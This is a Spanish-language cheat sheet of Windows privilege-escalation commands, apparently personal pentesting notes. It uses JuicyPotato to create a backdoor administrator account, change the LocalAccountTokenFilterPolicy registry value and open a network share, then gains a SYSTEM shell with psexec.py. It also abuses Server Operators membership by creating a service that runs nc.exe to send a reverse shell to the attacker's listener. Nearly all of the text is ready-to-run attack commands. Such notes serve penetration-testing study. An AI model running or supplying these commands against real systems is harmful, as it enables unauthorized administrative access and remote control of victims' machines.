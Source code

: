 Primero te descargas el juicypotato a tu equipo, luego con la herramienta smbserver te compartes un recurso que este sincronizado con la ruta actual de trabajo y le das soporte a la versión 2 de smb para no tener problemas con la versión del sistema operativo. Te diriges a una ruta que tenga capacidad de escritura y copias el juicypotato.exe especificanfo tu ip-address, el nombre del archivo que quieres copiar y con que nombre lo quieres almacenar en el equipo.
```
sudo impacket-smbserver smbFolder $(pwd) smb2support	

cd C:\Windows\Temp
copy \\<ip-address>\smbFolder\juicypotato.exe jp.exe
```
Lo siguiente será crear un usuario con una contraseña para agregarlo al grupo Administrators y retocar el registro LocalAccountTokenFilterPolicy para que el usuario creado pueda ganar acceso como administrador.
```
jp.exe -t * -p C:\Windows\System32\cmd.exe -a "/c net user <username> <password> /add" -l 1337
jp.exe -t * -p C:\Windows\System32\cmd.exe -a "/c net localgroup Administrators <username> /add" -l 1337
jp.exe -t * -p C:\Windows\System32\cmd.exe -a "/c reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f" -l 1337
net user <username> 	# Comando para ver que el usuario creado se haya añadido al grupo Administrators.
```
<br><br>
Despues hay que comprobar que el usuario creado con el juicypotato sea un usuario del sistema con los privilegios de administrador para despues conectarte con psexec.py al sistema como el usuario NT Authority\System.
```
crackmapexec smb -u '<username>' '<password>'	# Si como output te sale un pwn3d! es por que el usuario es administrador del sistema

psexec.py WORKGROUP/<username>@<ip-address> cmd.exe
```
Si no puedes conectarte con psexec.py significa que los recursos compartidos a nivel de red no tienen permisos de escritura y tendras que crear uno.<br>
Te creas un recurso compartido y lo sincronizas con la ruta actual de trabajo garantizando que los usuarios que pertenezcan al grupo Administrators tengan privilegios totales sobre el recurso compartido y vuelves a ejecutar el psexec.py.
```
jp.exe -t * -p C:\Windows\System32\cmd.exe -a "/c net share smbFolder=C:\Windows\Temp /GRANT:Administratos.FULL" -l 1337

psexec.py WORKGROUP/<username>@<ip-address> cmd.exe
```
<br><br>
## net user \<username\>.
Ver a que grupos pertenece un usuario.
- Si el usuario pertenece al grupo Server Operator se pueden crear, iniciar y detener procesos para escalar privilegios.<br>Crear un proceso (servicio) para que cuando se inicie te envíe una reverse shell a tu equipo por el puerto 443.
```
sudo rlwrap ncat -nlvp 443	# Ponerte en escucha para recibir la reverse shell.

sc.exe create reverseShell binPath="C:\Windows\Temp\nc.exe -e cmd <ip-address> 443"
# reverseShell es el nombre del proceso.
# binPath es la ruta donde se encuentra el nc.exe.
```
Tranferir el nc.exe a la máquina víctima.
```
impacket-smbserver smb smbFolder $(pwd) smb2support	# Desde tu equipo.
copy \\<ip-address>\smbFolder\nc.exe			# Desde la máquina víctima.

upload /ruta/donde/esta/el/nc.exe	# Forma de subir el nc.exe en caso de haber ganado acceso por winrm.
```